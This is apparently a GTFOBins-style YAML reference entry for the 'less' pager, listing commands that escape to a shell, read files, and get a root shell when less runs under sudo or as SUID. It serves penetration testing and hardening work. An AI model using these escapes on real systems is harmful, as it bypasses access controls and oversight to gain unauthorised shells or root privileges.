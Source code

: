 ```yaml
---
functions:
  execute-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  file-read:
    - code: less file_to_read
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-enabled:
    - code: |
        ./less file_to_read
        !/bin/sh
---
```

